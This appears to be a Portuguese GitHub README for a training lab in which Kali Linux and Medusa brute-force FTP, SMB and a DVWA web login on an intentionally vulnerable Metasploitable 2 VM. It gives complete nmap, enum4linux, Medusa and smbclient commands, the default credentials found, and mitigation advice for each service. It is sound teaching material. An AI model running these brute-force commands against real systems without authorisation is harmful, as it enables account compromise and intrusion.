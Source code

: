 # dio-kali-medusa-challenge
# Desafio DIO: Ataques de Força Bruta com Kali e Medusa

Este repositório documenta a execução do desafio "Implementar, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa" da plataforma DIO.

## 1. Descrição do Projeto

O objetivo foi configurar um ambiente de pentest controlado (Kali Linux vs. Metasploitable 2) para simular ataques de força bruta contra diferentes serviços (FTP, SMB, HTTP/DVWA) usando a ferramenta Medusa, documentando todo o processo.

## 2. Configuração do Ambiente

* **Software de Virtualização:** VirtualBox
* **VM Atacante:** Kali Linux (IP: `192.168.56.101`)
* **VM Alvo:** Metasploitable 2 (IP: `192.168.56.102`)
* **Configuração de Rede:** Modo "Host-Only" (Rede Apenas de Anfitrião) para isolar o laboratório.

## 3. Ferramentas Utilizadas

* `nmap`: Usado para o reconhecimento inicial de portas e serviços.
* `echo`: Utilizado para criar as wordlists personalizadas.
* `enum4linux`: Ferramenta de enumeração específica para SMB/Windows.
* `medusa`: Ferramenta principal para os ataques de força bruta.
* `smbclient`: Usado para validar o acesso ao SMB após o sucesso do ataque.

---

## 4. Preparação e Execução dos Ataques

### 4.1. Criação de Wordlists Iniciais

Antes de iniciar os ataques, foram criados arquivos (`.txt`) contendo listas de possíveis usuários e senhas para os primeiros testes.

Bash
# Criação do arquivo de usuários
`echo -e "user\nmsfadmin\nadmin\nroot" > users.txt`

# Criação do arquivo de senhas
`echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt`

4.2. Ataque 1: Brute Force em FTP (File Transfer Protocol)
Comando de Scan (Nmap):
Bash

`nmap -sV -p 21 192.168.56.102`
Comando de Ataque (Medusa):

Bash

`medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6`
Resultado:

`ACCOUNT FOUND: User: msfadmin Password: msfadmin [SUCCESS])`

Recomendação de Mitigação:

Utilizar senhas fortes e complexas.

Implementar bloqueio de conta após X tentativas falhas.

Limitar o acesso ao FTP apenas para IPs confiáveis.

4.3. Ataque 2: Enumeração e Força Bruta em SMB
Para este ataque, foi feita uma enumeração detalhada para criar listas de usuários e senhas mais assertivas.

Comando de Enumeração (Enum4linux):

Bash

`enum4linux -a 192.168.56.102 | tee enum4_output.txt`
Resultado da Enumeração:

A ferramenta enum4linux identificou uma lista de usuários válidos no sistema, incluindo msfadmin, user, root, service, etc. (Como visto no arquivo enum4_output.txt).

Criação de Wordlists para SMB:

Com base nos usuários encontrados, novas listas foram criadas:

Bash

`echo -e "user\nmsfadmin\nservice" > smb_users.txt`
`echo -e "password\n123456\nWelCome123\nmsfadmin" > senhas_spray.txt`
Comando de Ataque (Medusa):

Bash

`medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50`
Resultado do Ataque:

O Medusa encontrou uma credencial válida: `ACCOUNT FOUND: User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]`

Validação de Acesso (smbclient):

Para confirmar o acesso, listamos os compartilhamentos SMB com a credencial encontrada:

Bash

`smbclient -L //192.168.56.102 -U msfadmin`
Resultado da Validação:

O comando retornou a lista de compartilhamentos, confirmando o acesso: print$, tmp, opt, IPC$, ADMIN$, msfadmin.

Recomendação de Mitigação:

Implementar uma política de senhas fortes.

Monitorar logs para detectar múltiplas falhas de login.

Desabilitar a enumeração de usuários anônimos no SMB (alterando a configuração do smb.conf).

4.4. Ataque 3: Brute Force em Formulário Web (DVWA)
Comando de Scan (Nmap):

Bash

`nmap -sV -p 80 192.168.56.102`
Comando de Ataque (Medusa):

Bash

`medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6`
Resultado:

`ACCOUNT FOUND: User: admin Password: password [SUCCESS])`

Recomendação de Mitigação:

Implementar um CAPTCHA para diferenciar humanos de bots.
imitar a taxa de tentativas de login (Rate Limiting).
Bloqueio temporário de IP após múltiplas falhas.
